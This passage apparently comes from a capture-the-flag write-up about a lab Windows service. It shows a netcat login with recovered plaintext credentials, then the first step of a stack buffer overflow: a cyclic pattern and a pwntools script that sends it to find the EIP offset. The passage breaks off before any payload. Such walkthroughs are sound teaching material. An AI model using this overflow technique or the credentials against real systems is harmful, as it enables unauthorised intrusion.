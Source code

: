 ![image-20220203161045123](https://0xdfimages.gitlab.io/img/image-20220203161045123.png)

Neither Atbash and ROT47 have encrypt/decrypt functions, as the same function
does both for each.

With these creds, the login works:

    
    
    oxdf@hacky$ nc 10.10.11.115 9999
    Welcome Brankas Application.
    Username: alfiansyah
    Password: K3r4j@@nM4j@pAh!T
    Login Successfully!
    FullName: 
    

### Local Exploit

#### Find Offset

The first thing I need is the offset from my input to the return pointer that
will overwrite EIP. I’ll start `MyFirstApp.exe` running in my Windows VM with
x32dbg attached. I’ll generate a pattern buffer with `pattern_create.rb`:

    
    
    oxdf@hacky$ pattern_create.rb -l 200
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    

That goes into a simple Python script that will connect, give the correct
username/passwords, and send the pattern into the overflow:

    
    
    #!/usr/bin/env python3
    
    from pwn import *
    
    
    r = remote("10.1.1.163", args['PORT'])
    
    payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
    
    r.recvuntil("Username: ")
    r.sendline(b"alfiansyah")
    r.recvuntil("Password: ")
    r.sendline(b"K3r4j@@nM4j@pAh!T")
    r.recvuntil("FullName: ")
    r.sendline(b"0xdf")
    r.recvuntil("Input Your Code: ")
    r.sendline(payload)
    r.interactive()
    
